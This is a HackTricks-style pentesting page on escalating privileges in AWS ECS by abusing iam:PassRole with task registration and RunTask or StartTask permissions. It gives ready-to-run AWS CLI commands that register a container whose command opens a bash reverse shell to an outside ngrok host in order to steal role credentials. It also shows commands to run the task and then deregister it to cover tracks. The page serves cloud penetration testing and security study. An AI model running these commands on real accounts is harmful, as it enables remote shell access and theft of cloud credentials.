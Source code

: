 # AWS - ECS Privesc

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>

## ECS

More **info about ECS** in:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

An attacker abusing the `iam:PassRole`, `ecs:RegisterTaskDefinition` and `ecs:RunTask` permission in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it**.

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --requires-compatibilities "[\"FARGATE\"]" \
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
    --cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
    --launch-type FARGATE \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```

**Potential Impact:** Direct privesc to a different ECS role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

Just like in the previous example an attacker abusing the **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** permissions in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it**.\
However, in this case, a container instance to run the malicious task definition need to be.
